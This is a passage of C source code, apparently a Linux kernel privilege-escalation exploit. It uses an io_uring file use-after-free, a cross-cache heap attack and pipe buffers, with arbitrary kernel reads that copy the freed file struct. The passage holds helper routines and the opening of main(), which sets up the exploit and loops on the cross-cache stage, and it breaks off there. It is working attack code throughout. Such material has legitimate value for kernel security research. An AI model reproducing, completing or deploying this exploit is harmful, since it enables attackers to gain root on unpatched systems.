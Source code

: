 ```c
    return;
}

void make_ring_copy(void)
{
    // Get the base of the files array
    uint64_t files_ptr = read_8_at(g_file_array);
    
    // Adjust the files_ptr to point to our ring fd in the array
    files_ptr += (sizeof(uint64_t) * g_ring.ring_fd);

    // Get the address of our UAF file struct
    uint64_t curr_file = read_8_at(files_ptr);

    // Copy all the data into the buffer
    for (size_t i = 0; i < 32; i++)
    {
        uint64_t *val_ptr = (uint64_t *)&g_ring_copy[i * 8];
        *val_ptr = read_8_at(curr_file + (i * 8));
    }
}

// Here, all we're doing is determing what side of the page the UAF file is on,
// if its on the front half of the page, the back half is our scratch space
// and vice versa
void set_scratch_space(void)
{
    g_scratch = g_pipe_buf;
    if (g_off < 0x500) { g_scratch += 0x500; }
}

// We failed cross-cache stage, either because we didnt replace UAF object
void cc_fail(void)
{
    cc_reset();
    close(g_uaf_fd);
    g_uaf_fd = -1;
    release_pipe();
    create_pipe();
    sleep(1);
}

void write_pipe(unsigned char *buf)
{
    if (write(g_pipe.fd[PIPE_WRITE], buf, 4096) == -1)
    {
        err("`write()` failed");
    }
}

int main(int argc, char *argv[])
{
    info("Setting up exploit environment...");
    setup_env();

    // Create a debug buffer
    unsigned char buf[4096] = { 0 };
    memset(buf, 'A', 4096); 

retry_cc:
    // Do cross-cache attempt
    info("Attempting cross-cache...");
    do_cc();
```